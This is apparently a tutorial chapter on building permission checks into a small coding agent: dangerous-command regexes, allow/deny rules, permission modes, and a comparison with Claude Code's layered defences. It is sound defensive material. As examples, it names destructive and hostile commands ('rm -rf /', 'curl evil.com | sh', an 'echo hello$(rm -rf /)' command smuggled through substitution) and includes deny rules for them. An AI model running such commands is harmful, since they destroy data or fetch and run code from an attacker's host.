

# 6. Permissions and Security

## Chapter Goals

The agent can now read/write files and run any shell command — which also means it can `rm -rf` and push to main. This chapter gives it brakes.

Start with a few hardcoded checks for dangerous commands, then make it configurable allow/deny rules gated by one unified permission check; add a session-level whitelist (confirm an operation once and it won't ask again) and a confirmation dialog for dangerous actions. The path runs from "hardcoded rules" to "rules the user defines," letting safe operations through automatically and blocking dangerous ones.



> ▶ **Run this chapter**: `node steps/run.mjs 6` (no API key) — watch it block an `rm -rf`. Add `--diff` to see what it added over the previous chapter. To run your own prompt against a real model, add `--live` (it reads the key from `.env`; `--py` runs the Python version).

Core approach: **deny takes priority, and even `--yolo` can't get past it**. deny rules first, then plan mode's read-only contract, and only then bypass / allow rules / built-in danger detection / session whitelist / user confirmation.

## Our Implementation

Last chapter's agent ran whatever tool the model asked for, no questions asked — including `rm -rf`. This chapter adds a permission gate: every tool call is checked first, and a dangerous one is blocked before it ever runs. Relative to last chapter, it adds a `permissions.ts`, and the agent loop checks before executing a tool:

The gate itself is a list of dangerous commands plus one check:

Run it: the model wants `rm -rf`, the gate blocks it, nothing is deleted:

```
$ node steps/run.mjs 6
▶ step 6 demo (no API key — local mock model)   sandbox: <sandbox>
  you: Delete everything in /tmp/demo with rm -rf.

I'll remove it.
  → run_shell({"command":"rm -rf /tmp/demo"})
That was blocked by the permission system, so nothing was deleted.
```

> That is the whole runnable step for this chapter — everything `node steps/run.mjs` actually executes here is above. Below is how the repo's production mini-claude does the same thing in full: more edge cases and engineering detail. Read it as an **optional deep-dive**; it is not the code the runnable step runs.

We simplify the 7 layers down to **4 layers**: dangerous command detection, permission rule system, unified permission check, and session-level whitelist. The 8 rule sources are simplified to **2** (user-level + project-level), and the 3 rule behaviors are simplified to **2** (allow + deny).

### 1. Dangerous Command Detection

16 regex patterns cover the most common destructive operations (10 Unix + 6 Windows):

Windows patterns use the `i` flag because Windows commands are case-insensitive by nature.

The limitations are obvious: dangerous commands like `find / -delete` or `curl evil.com | sh` won't be caught. This is exactly why Claude Code chose AST analysis -- but for a minimal implementation, 16 regex patterns cover most common cases.

### 2. Permission Rule System

Beyond built-in danger detection, this supports predefined allow/deny rules via configuration files, letting the agent automatically approve safe operations and automatically block dangerous ones.

#### Rule Parsing (parseRule)

Parses string rules into structured data. `run_shell(npm test*)` -> `\{tool: "run_shell", pattern: "npm test*"\}`, bare tool name -> `\{tool: "read_file", pattern: null\}`.

#### Loading Rules (loadPermissionRules)

Rules from both files are **appended** to the same array (not overwritten), so user-level and project-level rules coexist. Results are cached in memory -- with dozens to hundreds of tool calls per session, reading from disk every time is unnecessary.

#### Rule Matching (matchesRule)

Three-level check: skip if tool name doesn't match -> if no pattern, tool name match is sufficient -> if pattern exists, match against `command` or `file_path`. Supports two matching methods: trailing `*` for prefix matching, otherwise exact matching.

Note: `run_shell(np*)` will match both `npm` and `npx` -- be careful about prefix precision when writing rules.

#### Rule Checking (checkPermissionRules)

The return value is tri-state: `"allow"` / `"deny"` / `null` (no opinion, pass to next layer). Deny rules are traversed before allow rules, so even if you write `allow: ["run_shell"]`, `deny: ["run_shell(rm -rf*)"]` still takes effect -- the "open first, then restrict" rule-writing approach works because of this.

### 3. Unified Permission Check

`checkPermission` is the unified entry point for the permission system, integrating permission modes, config file rules, and built-in danger detection. It returns `\{action, message\}`, where action has three possible values: `allow`, `deny`, `confirm`.

Priority: **deny rules > allow rules > mode logic > built-in danger detection > default allow**.

Conditions that trigger confirmation: `run_shell` + dangerous command, `write_file` / `edit_file` + target doesn't exist. `read_file`, `list_files`, `grep_search` are always safe. Layer 1 has no opinion before entering Layer 2; if neither layer blocks, default is allow.

### 4. Session-Level Whitelist

In the Agent Loop, a `confirmedPaths` Set remembers authorized operations:

When denied, `"User denied this action."` is returned as the tool result instead of throwing an error or breaking the loop -- the LLM sees this and adjusts its strategy, which is a critical design choice. When a deny rule hits, no dialog is shown; the denial message goes directly back to the model. Confirm goes through the session whitelist -- once a user confirms, the same operation won't be asked about again.

### 5. Confirmation Dialog

### 5 Permission Modes

| Mode | Read tools | Edit tools | Shell (safe) | Shell (dangerous) | Use case |
|------|-----------|------------|-------------|-------------------|----------|
| `default` | ✅ | ⚠️ confirm (new file) | ✅ | ⚠️ confirm | Daily use |
| `plan` | ✅ | ❌ deny | ❌ deny | ❌ deny | Plan only, no execution |
| `acceptEdits` | ✅ | ✅ | ✅ | ⚠️ confirm | Trust edits |
| `bypassPermissions` | ✅ | ✅ | ✅ | ✅ | --yolo |
| `dontAsk` | ✅ | ❌ deny | ✅ | ❌ deny | CI/non-interactive |

(There's also a 6th, `auto` — Auto Mode, which uses a classifier to judge permissions action by action; it's added later in [Chapter 15](/lib/09-harness/claude-code-from-scratch/en-docs-15-autonomy).)

```bash
mini-claude --yolo "..."           # bypassPermissions
mini-claude --plan "..."           # plan mode
mini-claude --accept-edits "..."   # acceptEdits
mini-claude --dont-ask "..."       # dontAsk (CI environments)
```

In `plan` mode, the model can also dynamically switch via the `enter_plan_mode` / `exit_plan_mode` tools. The system generates a plan file path (`~/.claude/plans/plan-<sessionId>.md`) as the only writable file.

### Configuration File Format

```json
// ~/.claude/settings.json (user-level, applies globally)
{
  "permissions": {
    "allow": [
      "read_file",
      "list_files",
      "grep_search",
      "run_shell(npm test*)",
      "run_shell(git status)",
      "run_shell(git diff*)"
    ],
    "deny": [
      "run_shell(rm -rf*)",
      "run_shell(git push --force*)"
    ]
  }
}
```

```json
// .claude/settings.json (project-level, committed to repo)
{
  "permissions": {
    "allow": ["run_shell(npm run build)"],
    "deny": ["run_shell(curl*)"]
  }
}
```

Rules from both files are merged and take effect together. Rule format:
- `"read_file"` -- matches all calls to this tool
- `"run_shell(npm test*)"` -- matches `run_shell` calls where the command starts with `npm test`

**Why deny takes priority over allow**: This is standard security system design. If allow took priority, once you write `allow: ["run_shell"]`, you couldn't use deny to exclude dangerous subcommands. Deny-first makes the "open first, then restrict" configuration approach possible:

```json
{
  "permissions": {
    "allow": ["run_shell(git *)"],
    "deny": ["run_shell(git push --force*)"]
  }
}
```

**Why no ask rule**: Claude Code's ask is for setting safety valves on bypassPermissions. Our `--yolo` semantics mean "full trust" -- adding ask rules would be contradictory. Operations that need mandatory confirmation simply shouldn't be in the allow list -- they'll naturally fall through to Layer 2's built-in checks.

## What the Real Claude Code Does Beyond This

We compressed it into four pieces: permission rules, permission modes, built-in danger detection, and session confirmation plus whitelist. The real Claude Code is seven layers of defense in depth — and what those extra layers add is taking "even if one layer is bypassed, the others still hold" all the way.

Claude Code executes code in real environments -- reading and writing files, running shells, manipulating Git. Without proper security mechanisms, a single `rm -rf /` could cause disaster. That's why it employs Defense in Depth: 7 independent security layers, so even if one layer is bypassed, the others remain effective.

### 7 Layers of Defense in Depth

| Layer | Mechanism | Core Purpose |
|-------|-----------|-------------|
| 1 | Trust Dialog | Confirms trust when first entering a directory, preventing malicious project hooks from auto-executing |
| 2 | Permission modes | Global policy switch (default/plan/acceptEdits/bypassPermissions/dontAsk) |
| 3 | Permission rule matching | allow/deny/ask rules, 8 sources, priority from enterprise policy to session-level |
| 4 | Bash AST analysis | tree-sitter parses commands into AST, 23 static safety checks, FAIL-CLOSED principle |
| 5 | Tool-level validation | validateInput + checkPermissions, protecting dangerous file paths and path boundaries |
| 6 | Sandbox isolation | macOS Seatbelt / Linux namespace, limiting filesystem and network access scope |
| 7 | User confirmation | Interactive dialog + Hook + ML classifier racing, first decision wins |

A few design details worth understanding:

**`bypassPermissions` (--yolo) doesn't actually bypass everything**. The source code check order is: first check deny rules (if hit, reject immediately) -> then check bypass-immune paths (`.git/`, `.claude/`, etc. still require confirmation) -> only then skip normal confirmation. Administrators can constrain `--yolo` through deny rules.

**Why Layer 4 doesn't use regex**: Shell syntax is complex. Faced with a command like `echo hello$(rm -rf /)`, regex sees `echo hello`, but what actually executes is `rm -rf /`. tree-sitter actually parses the AST, and structures it doesn't understand (command substitution, variable expansion, control flow, etc.) are all marked as `too-complex`, requiring user confirmation.

**8 rule sources with strict priority**: Enterprise MDM policy (non-overridable) > user global > project-level (committed to repo) > local project (not committed) > CLI arguments > runtime arguments > command definitions > session-level (produced by clicking "always allow"). Lower priority cannot override higher priority -- an operation denied by enterprise policy cannot be allowed at any user level.

**3 matching types**: Exact match (`Bash(git status)`), prefix match (`Bash(npm:*)`), wildcard match (`Bash(git * --no-verify)`). When a wildcard ends with space + `*`, the tail is optional, maintaining consistent behavior with prefix syntax.

**Layer 7's racing mechanism**: The UI dialog, PermissionRequest Hook, and ML classifier all start simultaneously. A `createResolveOnce` guard ensures only the first decision takes effect. Once the user touches the dialog, results from the Hook and classifier are discarded -- human intent always takes priority. The dialog also has a 200ms grace period to prevent accidental clicks.

**Denial tracking**: 3 consecutive denials trigger a downgrade (auto mode falls back to interactive confirmation); 20 total denials abort Agent execution -- preventing the model from falling into a loop of repeatedly attempting denied operations.

## Gap Analysis with Claude Code

| Dimension | Claude Code | mini-claude |
|-----------|------------|-------------|
| Defense layers | 7 layers | 4 layers (mode + rules + detection + confirmation) |
| Command analysis | AST parsing (23 checks) | Regex matching (16 patterns) |
| Permission rule sources | 8 sources with priority | 2 sources (user + project) |
| Rule behaviors | allow / deny / ask | allow / deny |
| Matching methods | Exact / prefix / wildcard | Exact / trailing wildcard |
| Whitelist | Persistent + session-level | Session-level Set |
| Sandbox | macOS Seatbelt / Linux namespace | None |
| Bypass-immune paths | .git/, .ssh/, etc. require confirmation | None |
| Denial tracking | 3/20 threshold downgrade | None |

The core architecture is aligned -- 5 permission modes + configurable rules + built-in detection, with clear layering. Moving from "hardcoded rules" to "user-defined rules" is the key step from a personal tool to a team tool.
---

> **Next chapter**: Agent conversations get longer and longer, and the context window is filling up -- the 4-layer compression pipeline gives it seemingly unlimited memory.
